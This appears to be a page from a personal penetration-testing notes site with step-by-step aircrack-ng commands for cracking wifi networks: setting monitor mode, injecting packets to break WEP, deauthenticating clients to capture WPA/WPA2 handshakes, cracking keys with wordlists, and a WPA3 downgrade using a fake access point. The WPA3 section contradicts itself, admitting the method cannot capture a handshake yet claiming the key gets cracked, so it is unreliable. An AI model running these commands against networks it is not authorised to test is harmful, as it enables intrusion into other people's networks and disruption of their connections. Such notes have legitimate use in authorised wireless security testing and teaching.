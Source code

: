```yaml
---
title: Wifi cracking
layout: page
parent: network
---
```


# Wifi cracking

<details open markdown="block">
  <summary>
    Table of contents
  </summary>
  {: .text-delta }
1. TOC
{:toc}
</details>

---

## Setup

### Monitor mode

First off, you need to set up your wifi interface in monitor mode. To do so, you need to know the name of your wifi interface. You can find it by running the following command:

```bash
ip addr
```

This will list all the network interfaces on your system. Look for the one that corresponds to your wifi adapter. It is usually named `wlan0`, `wlan1`, `wlo1` or something similar.
Once you have identified your wifi interface, you can set it to monitor mode using the following commands :

```bash
sudo airmon-ng check kill
sudo airmon-ng start <interface>  # start monitor mode
```

### Network scanning

Now, you can scan for wifi networks using the following command:

```bash
sudo airodump-ng <monitor_interface> #eg wlan0mon
```

This will display a list of all the wifi networks in range, and note the BSSID (MAC address) and channel of the target network.

## WEP cracking

### Capture packets

To crack WEP, you need to capture packets from the target network. You can do this using the following command:

```bash
sudo airodump-ng --channel <channel> --bssid <BSSID> --write <output_file> <monitor_interface>
```

You want a lot of Data packets (not just Beacons).

### Speed up the process

To speed up the process, you can use the following command to inject packets into the network:

```bash
sudo aireplay-ng --fakeauth 0 -a <BSSID> <monitor_interface>
```

This will authenticate you to the network and allow you to capture more packets, then you can use the following command to generate ARP requests:

```bash
sudo aireplay-ng --arpreplay -b <BSSID> <monitor_interface>
```

This will generate a lot of traffic and help you capture more packets.

### Cracking the WEP key

Once you have captured enough packets (at least 50000 IVs, recommended 200000), you can crack the WEP key using the following command:

```bash
sudo aircrack-ng <output_file>
```

This will attempt to crack the WEP key using the captured packets. If successful, it will display the WEP key in the terminal.

## WPA/WPA2 cracking

### Capture the handshake

To crack WPA/WPA2, you need to capture a 4-way handshake. To do so, you have to capture the handshake when a client connects to the network, so start the airodump-ng command to capture packets:

```bash
sudo airodump-ng --channel <channel> --bssid <BSSID> --write <output_file> <monitor_interface>
```

If a client is connected to the network, you will see the handshake in the terminal. If not, you can use the following command to deauthenticate a client and force it to reconnect in another terminal:

```bash
sudo aireplay-ng --deauth 10 -a <BSSID> -c <STATION> <monitor_interface>
```

### Cracking the WPA/WPA2 key

Once you have captured the handshake, you can crack the WPA/WPA2 key using a wordlist. You can use the following command to crack the key:

```bash
sudo aircrack-ng -w <wordlist> <capture_file>
```

This will attempt to crack the WPA/WPA2 key using the wordlist provided. If successful, it will display the WPA/WPA2 key in the terminal.
Note that if the ESSID is hidden, you will need to use the `-e` option to specify the ESSID when cracking the key.

## WPA3 downgrade

Note that this only allows us to shutdown traffic on the network, but not to capture the handshake. To do this, we need to change our approach on the WPA2 AP part.

### Capture packets

To crack WPA3, you need to capture packets from the target network. You can do this using the following command:

```bash
sudo airodump-ng --channel <channel> --bssid <BSSID> <monitor_interface>
```

### Deauthenticate a client

To deauthenticate a client and force it to reconnect, you can use the following command:

```bash
sudo aireplay-ng --deauth 10 -a <BSSID> -c <STATION> <monitor_interface>
```

### Fake a WPA2 AP

To fake a WPA2 AP, you can use the following command:

```bash
sudo airbase-ng -e <SSID> -c <channel> -P -C 30 -Z 4 <monitor_interface>
```

This will create a fake AP with the specified SSID and channel, however, this is not a true WPA2 AP, which does not allow us to capture the handshake. To do this, we need to use a different method. This is the only thing missing to make WPA3 cracking work.

### Capture the handshake

Conceal the WPA3 handshake by capturing it with airodump-ng:

```bash
sudo airodump-ng --channel <channel> --bssid <fake_BSSID> --write <output_file> <monitor_interface>
```

Once you have captured the handshake, you can crack the WPA3 key using a wordlist. You can use the following command to crack the key:

```bash
sudo aircrack-ng -w <wordlist> <capture_file>
```

This will attempt to crack the WPA3 key using the wordlist provided. If successful, it will display the WPA3 key in the terminal.

## Resetting the interface

Once you are done with the cracking, you can reset your wifi interface to its normal mode using the following command:

```bash
sudo airmon-ng stop <monitor_interface>
```

This will stop the monitor mode and reset the interface to its normal mode.
You can also use the following command to restart the network manager:

```bash
sudo systemctl restart NetworkManager
```

This will restart the network manager and allow you to connect to wifi networks again.
